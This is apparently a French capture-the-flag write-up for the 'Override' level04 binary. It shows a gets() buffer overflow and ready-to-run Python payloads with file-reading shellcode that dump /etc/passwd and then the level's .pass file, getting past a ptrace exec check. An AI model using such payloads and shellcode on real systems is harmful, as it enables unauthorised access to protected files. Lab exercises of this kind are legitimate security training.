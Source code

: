# Override / Level04

## Lire le fichier level04

On se remet sur dogbolt pour celui la. Le code est dans source.c.


## Vulnerabilite



We have a segfault in the first child because the function gets is not protect.

```
run <<< $(python -c 'print "A" * 164')
Breakpoint 1, 0x08048787 in main ()
(gdb) x/100x $eax
0xb7f:	Cannot access memory at address 0xb7f
(gdb) info registers
eax            0xb7f	2943
```

0xb7f = 2943 (segfault)

Malheuresement si on utilise un shellcode basic exec /bin/sh on tombe sur 
no exec for you()

Cela est du parce que ptrace check si exec est utlise , si oui il renvoie 11 et du coup d apres la source.c l'exe est kill , donc on doit utiliser un autre shellcode:

ce shellcode permet de ouvrir de lire et de write le fichier
https://www.exploit-db.com/exploits/41635

$(python -c 'print "\x90" * 51 + "\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x31\xc0\x99\xb0\x05\xcd\x80\x89\xc7\xb2\xff\x89\xe1\x89\xfb\xb0\x03\xcd\x80\xb3\x01\xb0\x04\xcd\x80\xfe\xca\x80\xfa\x01\x74\x02\xeb\xe9" + "A" * 51 + "\x5c\xd6\xff\xff"* 1')

![Légende](img.png)

Cela marche sur gdb!


Il faut juste maintenant changer /etc/passwd en /home/users/level04/.pass


/etc/passwd => sswd//pa//etc => \x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63

/home//users//level04//.pass => pass4//.vel0//leserse//u/hom  => \x68\x70\x61\x73\x73\x68\x35\x2f\x2f\x2e\x68\x76\x65\x6c\x30\x68\x2f\x2f\x6c\x65\x68\x73\x65\x72\x73\x68\x65\x2f\x2f\x75\x68\x2f\x68\x6f\x6d

Petite description de ce qui se passe.
En asm, on utilise une instruction ici \x68 (push), puis on doit mettre 4 bytes par 4 bytes mais a l'envers. Donc cette partie du shellcode ci dessous peut se traduire par:
\x68\x70\x61\x73\x73 : push "pass"
\x68\x35\x2f\x2f\x2e : push "4//."
etc...

Hors gdb, en quelques try sur des adresses on tombe sur le flag.

![Légende](img1.png)

>(python -c 'print "\x90" * 51 + "\x31\xc9\x51\x68\x70\x61\x73\x73\x68\x35\x2f\x2f\x2e\x68\x76\x65\x6c\x30\x68\x2f\x2f\x6c\x65\x68\x73\x65\x72\x73\x68\x65\x2f\x2f\x75\x68\x2f\x68\x6f\x6d\x89\xe3\x31\xc0\x99\xb0\x05\xcd\x80\x89\xc7\xb2\xff\x89\xe1\x89\xfb\xb0\x03\xcd\x80\xb3\x01\xb0\x04\xcd\x80\xfe\xca\x80\xfa\x01\x74\x02\xeb\xe9" + "\x90" * 31 + "\x90\xd6\xff\xff"* 1') | ./leve04